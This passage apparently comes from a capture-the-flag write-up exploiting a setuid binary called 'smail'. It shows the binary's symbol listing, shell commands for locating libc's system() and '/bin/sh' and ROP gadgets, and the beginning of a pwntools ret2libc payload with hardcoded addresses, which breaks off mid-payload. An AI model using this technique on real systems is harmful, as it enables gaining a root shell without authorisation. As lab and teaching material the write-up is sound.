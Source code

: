 ```bash
__isoc99_scanf@@GLIBC_2.7
__TMC_END__
setuid@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got
.got.plt
.data
.bss
.comment
```

We can try `ret2libc` buffer overflow, this is due to the message `limit(80)`, if we use the binary and do this, we can see the following:


![[Pasted image 20250424145012.png]]

We got `segmentation fault (core dumped)`, we can do the following to get each address:

```
ldd smail
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
ROPgadget --binary smail | grep rdi
objdump -d smail | grep ret
```

let's use the following payload:

```python
#!/usr/bin/env python3

from pwn import *

exploit = process('./smail')

base = 0x7ffff79e2000
sys = base + 0x4f550
shell = base + 0x1b3e1a

rop_rdi = 0x4007f3

payload = b'\x69' * 72
payload += p64(0x400556)
payload += p64(rop_rdi)
```